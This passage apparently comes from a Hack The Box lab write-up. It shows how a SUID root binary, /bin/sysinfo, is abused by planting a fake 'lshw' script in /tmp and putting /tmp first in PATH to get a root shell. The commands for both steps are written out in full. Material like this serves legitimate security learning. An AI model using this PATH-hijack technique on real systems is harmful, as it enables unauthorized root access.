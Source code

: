 ![](/assets/img/posts/htb/05-2020/suid.png)

Viewing the file information for `/bin/sysinfo` shows the owner is root and, because the SUID bit is set, this file with execute as the owner. Hacking Articles has a [great write-up](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) detailing exactly how we can abuse SUID to escalate our privileges.

```bash
$ ls -al /bin/sysinfo
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
```

Let's go ahead and  upload pspy64, [an unprivileged process spy](https://github.com/DominicBreuker/pspy), and use it view exactly what is called and executed when we run `sysinfo`.

```bash
$ scp pspy64 theseus@10.10.10.185:/tmp
```

Running `sysinfo`, we can see it calls a couple commands, one of which is `lshw`.

![](/assets/img/posts/htb/05-2020/processes.png)

Because it does not specify the full path of the command, instead relying on the system `$PATH` variable, we can manipulate the path to execute whatever command we want. Hacking Articles has another [article on this topic](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

First, we'll create a file `lshw` in the `/tmp` directory. Then we will add the `/tmp` directory to the system path. When `sysinfo` is ran, it'll execute our script first, opening a bash shell as root.

```bash
$ cd /tmp
$ echo "/bin/bash" > lshw
$ chmod 777 lshw
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin/:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ export PATH=/tmp:$PATH
$ sysinfo
```
